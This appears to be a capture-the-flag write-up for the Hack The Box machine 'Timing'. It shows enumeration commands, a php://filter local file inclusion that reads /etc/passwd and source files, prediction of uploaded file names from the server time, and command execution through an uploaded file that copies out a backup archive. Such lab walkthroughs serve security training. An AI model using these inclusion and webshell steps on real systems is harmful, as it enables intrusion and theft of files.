

# Timing 10.10.11.135

Core Concepts:

## Enumeration

Alright, so at this point you've probably read some of my tutorials before (at least I hope if you're doing a medium box) so I'm going to be a little less verbose about enumeration when the steps are obvious.  From this point on you should probably know if nmap says port 80 is open we're checking for a website and blasting it with gobuster and wfuzz to find all the subdirecties.  

```
nmap -sV -sC 10.129.246.163 -o nmap.timing.txt
wget https://raw.githubusercontent.com/rbsec/dnscan/master/subdomains-10000.txt
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/raft-small-words.txt
sudo nano /etc/hosts (add 10.10.11.135  timing.htb)
gobuster dir -u timing.htb -w subdomains-10000.txt -o gobuster.timing.txt
gobuster dir -u timing.htb -w raft-small-words.txt -o gobuster.raft-small-words.timing.txt
wfuzz -H "Host: FUZZ.timing.htb" -w subdomains-10000.txt --hh 290 --hc 302 http://timing.htb/ > fuzz.timing.txt
wfuzz -H "Host: FUZZ.timing.htb" -w raft-small-words.txt --hh 290 --hc 302 http://timing.htb/ > fuzz.raft-small-words.timing.txt
```

We didn't really get anything with the subdomains-10000.txt wordlist but when we switched to raft-small-words.txt we had a ton of hits.  Particularly interesting is image.php. .php subdomains where we can upload always have a chance of being vulnerable to php reverse shells.  Let's ffuf it for subdomains and see what we can find.

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
ffuf -u 'http://timing.htb/image.php?img=FUZZ' -w LFI-gracefulsecurity-linux.txt
```

Using 'img' as our parameter we get a few hits. Let's curl `/etc/passwd`

```
curl 'http://timing.htb/image.php?img=/etc/passwd'
```



(° ͜ʖ͡°)╭∩╮ k...
After a little research I found curl https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter which allows us to bypass the security filter.

```
┌──(taylor㉿DESKTOP-72GCBB0)-[~/Documents/Timing]
└─$ curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd'
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMDoxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kL25ldGlmOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMToxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQvcmVzb2x2ZTovdXNyL3NiaW4vbm9sb2dpbgpzeXNsb2c6eDoxMDI6MTA2OjovaG9tZS9zeXNsb2c6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDc6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpfYXB0Ong6MTA0OjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KbHhkOng6MTA1OjY1NTM0OjovdmFyL2xpYi9seGQvOi9iaW4vZmFsc2UKdXVpZGQ6eDoxMDY6MTEwOjovcnVuL3V1aWRkOi91c3Ivc2Jpbi9ub2xvZ2luCmRuc21hc3E6eDoxMDc6NjU1MzQ6ZG5zbWFzcSwsLDovdmFyL2xpYi9taXNjOi91c3Ivc2Jpbi9ub2xvZ2luCmxhbmRzY2FwZTp4OjEwODoxMTI6Oi92YXIvbGliL2xhbmRzY2FwZTovdXNyL3NiaW4vbm9sb2dpbgpwb2xsaW5hdGU6eDoxMDk6MTo6L3Zhci9jYWNoZS9wb2xsaW5hdGU6L2Jpbi9mYWxzZQpzc2hkOng6MTEwOjY1NTM0OjovcnVuL3NzaGQ6L3Vzci9zYmluL25vbG9naW4KbXlzcWw6eDoxMTE6MTE0Ok15U1FMIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQphYXJvbjp4OjEwMDA6MTAwMDphYXJvbjovaG9tZS9hYXJvbjovYmluL2Jhc2gK
```

What we get in return is base64 encoded files. Let's go ahead and decode it and grep for user details.

```
┌──(taylor㉿DESKTOP-72GCBB0)-[~/Documents/Timing]
└─$ curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd' | base64 -d | grep bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2152  100  2152    0     0  13748      0 --:--:-- --:--:-- --:--:-- 13794
root:x:0:0:root:/root:/bin/bash
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
```
curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=upload.php' | base64 -d
```

```
nmap -p80 --script http-date timing.htb
```

```
while true; do curl -v -s "http://timing.htb/images/uploads/e8e77ad06dde9730238b094381525532_demo.jpg";echo ; sleep .8; done
```

Thu, 19 Nov 1981 08:52:00 GMT

$file_name = md5('$file_hash' . strtotime("08:52:00"));echo $file_name;


 curl 'http://timing.htb/image.php?img=images/uploads/e386dadae01c949d05a461b58477c0af_demo.jpg&cmd=id'


curl 'http://timing.htb/image.php?img=images/uploads/e8e77ad06dde9730238b094381525532_demo.jpg&cmd=id'
curl 'http://timing.htb/image.php?img=images/uploads/e8e77ad06dde9730238b094381525532_demo.jpg&cmd=ls+-la+/opt'
curl 'http://timing.htb/image.php?img=images/uploads/e8e77ad06dde9730238b094381525532_demo.jpg&cmd=cp+/opt/source-files-backup.zip+/var/www/html/images/uploads/'
curl 'http://timing.htb/image/php?img=images/uploads/source-files-backup.zip' --output source-files-backup.zip 

